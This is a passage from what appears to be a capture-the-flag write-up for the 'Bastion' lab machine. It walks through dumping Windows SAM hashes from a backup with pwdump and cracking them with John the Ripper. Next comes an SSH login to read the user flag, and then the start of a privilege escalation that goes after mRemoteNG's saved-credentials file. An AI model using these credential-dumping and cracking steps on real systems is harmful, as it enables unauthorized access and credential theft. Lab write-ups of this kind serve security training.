 I now have access to the system and SAM hive and I dump the hashes from the database:
```
/mnt/bastion_backup/Windows/System32/config# pwdump SYSTEM SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

With John The Ripper I can quickly find the password for user `L4mpje`: `bureaulampje`
```
# john --format=NT -w=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
```

I can now SSH in and get the user flag:
```
# ssh l4mpje@10.10.10.134
l4mpje@10.10.10.134's password:

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

l4mpje@BASTION C:\Users\L4mpje>cd desktop

l4mpje@BASTION C:\Users\L4mpje\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB3-C487

 Directory of C:\Users\L4mpje\Desktop

22-02-2019  16:27    <DIR>          .
22-02-2019  16:27    <DIR>          ..
23-02-2019  10:07                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  11.389.775.872 bytes free

l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt
9bfe57...
```

### Priv esc method used when box was launched

I did some initial recon and found the mRemoteNG application is installed on the system. mRemoteNG is a multi-protocol connection manager and allows users to connect to systems with different protocols like SSH, RDP, VNC, etc. As such, it supports saving the credentials locally in a configuration file.

The XML configuration file is located here: `C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml`
